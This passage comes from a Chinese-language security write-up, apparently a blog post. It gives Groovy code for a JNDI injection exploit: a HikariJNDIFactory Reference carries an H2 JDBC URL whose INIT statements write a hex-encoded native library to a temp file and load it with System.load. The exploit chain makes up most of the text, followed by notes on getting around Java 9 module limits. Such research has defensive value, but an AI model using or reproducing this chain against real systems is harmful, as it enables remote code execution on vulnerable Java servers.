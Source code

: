 ```plain
list << "DROP ALIAS IF EXISTS INVOKE_STATIC_METHOD"
list << "DROP ALIAS IF EXISTS CLASS_FOR_NAME"

// alias some external Java methods
list << "CREATE ALIAS CREATE_FILE FOR 'java.io.File.createTempFile(java.lang.String, java.lang.String)'"
list << "CREATE ALIAS WRITE_FILE FOR 'org.apache.commons.io.FileUtils.writeByteArrayToFile(java.io.File, byte[], boolean)'"
list << "CREATE ALIAS INVOKE_METHOD FOR 'org.apache.commons.beanutils.MethodUtils.invokeMethod(java.lang.Object, java.lang.String, java.lang.Object)'"
list << "CREATE ALIAS INVOKE_STATIC_METHOD FOR 'org.apache.commons.beanutils.MethodUtils.invokeExactStaticMethod(java.lang.Class, java.lang.String, java.lang.Object)'"
list << "CREATE ALIAS CLASS_FOR_NAME FOR 'java.lang.Class.forName(java.lang.String)'"

// use java.io.File.createTempFile() to create a blank file with `.so` extension
list << "SET @file=CREATE_FILE('$prefix', '.so')"

// read native library file and encode it to hex
def content = new File(lib_path).bytes.encodeHex().toString()
// split it into several chunks to avoid SQL length limit
def data = content.toList().collate(500)*.join()

// write the chunks to the file (append mode)
for (d in data) {
   list << "CALL WRITE_FILE(@file, X'$d', TRUE)"
}

// invoke file.getAbsolutePath() to get the absolute path of the temp file
list << "SET @path=INVOKE_METHOD(@file, 'getAbsolutePath', NULL)"
// invoke java.lang.System.load() to load the native library
list << "SET @clazz=CLASS_FOR_NAME('java.lang.System')"
list << "CALL INVOKE_STATIC_METHOD(@clazz, 'load', @path)"

// use INIT property to execute multi SQL statements, and each statement must be separated by `\;`
def url = "jdbc:h2:mem:testdb;TRACE_LEVEL_SYSTEM_OUT=3;INIT=${list.join('\\;')}\\;"

def ref = new Reference("javax.sql.DataSource", "com.zaxxer.hikari.HikariJNDIFactory", null)
ref.add(new StringRefAddr("driverClassName", "org.h2.Driver"));
ref.add(new StringRefAddr("jdbcUrl", url));

return ref
```

这里有几个注意点

首先因为自 Java 9 引入的模块化机制，不能直接使用 `com.sun.org.apache.xml.internal.security.utils.JavaUtils.writeBytesToFilename` 写文件，因此需要找到一个来自第三方依赖的可以写文件的静态方法

`org.apache.commons.io.FileUtils#writeByteArrayToFile(java.io.File, byte[], boolean)`

```plain
public static void writeByteArrayToFile(File file, byte[] data, boolean append) throws IOException {
    writeByteArrayToFile(file, data, 0, data.length, append);
}
```
